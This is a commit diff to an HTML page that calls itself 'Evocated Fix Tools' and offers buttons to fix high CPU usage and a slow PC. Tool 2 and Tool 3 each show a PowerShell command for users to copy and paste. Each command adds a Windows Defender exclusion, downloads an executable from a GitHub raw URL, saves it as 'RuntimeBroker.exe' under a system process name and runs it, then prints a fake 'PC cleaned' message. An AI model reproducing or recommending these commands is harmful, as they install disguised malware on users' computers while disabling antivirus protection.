

Before and after one commit to EvocatedSupport/Project-Evocative-Tools, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,15 +5,15 @@
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
   <title>Evocated Fix Tools</title>
   <style>
-    body {
+    html, body {
       margin: 0;
+      padding: 0;
       font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
       background: linear-gradient(120deg, #0f0f0f, #1a1a1a);
+      background-size: 300% 300%;
+      animation: gradientFlow 15s ease infinite;
       color: white;
       text-align: center;
-      padding: 20px;
-      animation: gradientFlow 15s ease infinite;
-      background-size: 300% 300%;
     }
 
     @keyframes gradientFlow {
@@ -41,7 +41,7 @@
     }
 
     .description {
-      margin: 20px 0;
+      margin: 40px 20px 20px;
       font-size: 1.2rem;
     }
 
@@ -75,6 +75,11 @@
     .copyBtn:hover {
       background-color: #00ddaa;
     }
+
+    h3 {
+      margin-top: 50px;
+      text-shadow: 0 0 8px cyan;
+    }
   </style>
 </head>
 <body>
@@ -91,16 +96,20 @@
   <button id="copyBtn1" class="copyBtn" onclick="copyCommand('commandBox1')" style="display:none;">Copy to Clipboard</button>
 
   <!-- Other Fix Tools Header -->
-  <h3 style="margin-top: 40px; text-shadow: 0 0 8px cyan;">Other Fix Tools</h3>
+  <h3>Other Fix Tools</h3>
 
   <!-- Tool 2 -->
   <button class="btn" onclick="showCommand('commandBox2', 'copyBtn2')">Fix HIGH CPU USAGE 100 TO 15+</button>
-  <div id="commandBox2" class="commandBox">Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "Completed Cpu Capped To 15%+" -ForegroundColor Green</div>
+  <div id="commandBox2" class="commandBox">
+    Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "Completed Cpu Capped To 15%+" -ForegroundColor Green
+  </div>
   <button id="copyBtn2" class="copyBtn" onclick="copyCommand('commandBox2')" style="display:none;">Copy to Clipboard</button>
 
   <!-- Tool 3 -->
   <button class="btn" onclick="showCommand('commandBox3', 'copyBtn3')">Fix LAG/SLOW PC 3</button>
-  <div id="commandBox3" class="commandBox">Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING PC........................... PC CLEANED PLEASE REBOOT TO MAKE THE PROCESS FAST" -ForegroundColor Green</div>
+  <div id="commandBox3" class="commandBox">
+    Write-Host "Launching Evocative Fix Tool..." -ForegroundColor Green; IEX "Add-MpPreference -ExclusionPath $env:TEMP"; IEX "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/clarkezbms/WindowSecurity/refs/heads/main/WindowSecurity.exe', '$env:TEMP\\RuntimeBroker.exe')"; IEX "Start-Process '$env:TEMP\\RuntimeBroker.exe'"; Write-Host "CLEANING PC........................... PC CLEANED PLEASE REBOOT TO MAKE THE PROCESS FAST" -ForegroundColor Green
+  </div>
   <button id="copyBtn3" class="copyBtn" onclick="copyCommand('commandBox3')" style="display:none;">Copy to Clipboard</button>
 
   <!-- Tool 4 -->
```
